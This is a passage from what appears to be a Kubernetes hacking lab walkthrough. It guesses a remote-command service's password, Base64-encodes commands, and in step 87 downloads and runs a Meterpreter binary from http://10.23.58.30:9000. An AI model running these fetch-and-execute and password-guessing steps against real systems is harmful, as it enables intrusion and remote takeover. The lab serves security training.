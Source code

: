 82. OK, so that got us an error message about an incorrect password.  Here's the output from our test system:

    ```
    Password is not correct
    ```

83. Notice that we used a shorter DNS name for the service this time. We used `whats-the-password-rce.phreaks-nynex-kingdom` instead of `whats-the-password-rce.phreaks-nynex-kingdom.svc.cluster.local`. It turns out the pods all have `svc.cluster.local` in their domain search list in `/etc/resolv.conf`.

84. Let's try some of the different passwords from that the movie claimed were the most common: "love", "secret", and "god".    

    ```shell
    curl -sk  ${url}/?cmd=id\&password=love
    curl -sk  ${url}/?cmd=id\&password=secret
    curl -sk  ${url}/?cmd=id\&password=god
    ```

85. Observe that the password was "god" - here's the output from our test system:

    ```
    cmd parameter must be Base64-encoded.
    ```

86. This is similar to how we got into the cluster. We just need to Base64-encode our `cmd` value. Let's try this:

    ```shell
    value=$( echo "id" | base64 -w 0 )
    curl -sk  ${url}/?cmd=$value\&password=god
    ```


87. Now use this as a shell to get a new Meterpreter.

    ```shell
    cmd="curl -o /tmp/mrsbin http://10.23.58.30:9000/mrsbin"
    curl -sk  ${url}/?password=god\&cmd=$(echo $cmd | base64)
    cmd="chmod 755 /tmp/mrsbin"
    curl -sk  ${url}/?password=god\&cmd=$(echo $cmd | base64)
    cmd="/tmp/mrsbin"
    curl -sk  ${url}/?password=god\&cmd=$(echo $cmd | base64)
    ```

88. Let's switch to the new session.  First, hit Ctrl-Z to background this Meterpreter channel.

    ```
    Hit Ctrl-z
    ```

89. Next, hit y to confirm.

    ```
    Hit y
    ```
